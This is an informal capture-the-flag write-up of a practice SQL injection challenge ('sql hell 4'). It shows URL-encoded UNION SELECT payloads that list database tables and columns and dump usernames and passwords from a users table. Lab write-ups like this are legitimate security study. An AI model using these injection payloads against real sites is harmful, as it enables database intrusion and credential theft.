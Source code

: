 No tiberious displayed.
![1080](column1and2foruser.png)

We are in sql hell 4
![1080](sqlhell4.png)

Normal we would enumerate the table names and columns says Al. So I will pause and do that.
```sql
-- 
/post?id=100+UNION+ALL+SELECT+group_concat(table_schema, '+:+',table_name),'kekw','GoingBeyond'+FROM+information_schema.tables+WHERE+table_schema+!%3d+'mysql'+AND+table_schema+!%3d+'information_schema'--+-
```

![1080](onlyusersalmighthavetodothis.png)

There is no flag table!
![](noflagtablein4.png)

Minor tweak from the previous usage column_name -> table_name
```sql
+UNION+ALL+SELECT+group_concat(table_schema,'+%3a+',table_name,'+%3a+',column_name),'kekw','TiberiousIsRightAgain'+FROM+information_schema.columns+WHERE+table_name='users'--+-
```

![](awesomeflag4gettingcloser.png)

My attempts - box died while trying these, lol. 
```sql
-- sqhell_4 : users : id
-- sqhell_4 : users : username
-- sqhell_4 : users : password
UNION+ALL+SELECT+id,username,password+FROM+sqhell_4.users
UNION+ALL+SELECT+group_concat(id,username,password)+FROM+sqhell_4.users
UNION+ALL+SELECT+password+FROM+sqhell_4.users--+-
UNION+ALL+SELECT+'X',group_concat(column_name),'0'+WHERE+column_name='password'+FROM+sqhell_4.users--+-
```

Unpaused - Al points out **Hint:** Unless displayed on the page the flags are stored in the flag table in the flag column

```sql
-- I was almost there!
UNION+ALL+SELECT+group_concat(username,':',password),'SQL','HELL'+FROM+sqhell_4.users--+-
```
Al is upset
![1080](whereistheflag.png)

Tiberious says this is a really difficult one Look up nested SQLi.

*A useful function in SQL is creating a query within a query, also known as a subquery or nested query. A nested query is a SELECT statement that is typically enclosed in parentheses, and embedded within a primary SELECT , INSERT , or DELETE operation.* [DigitalOcean Nest SQL](https://www.digitalocean.com/community/tutorials/how-to-use-nested-queries)
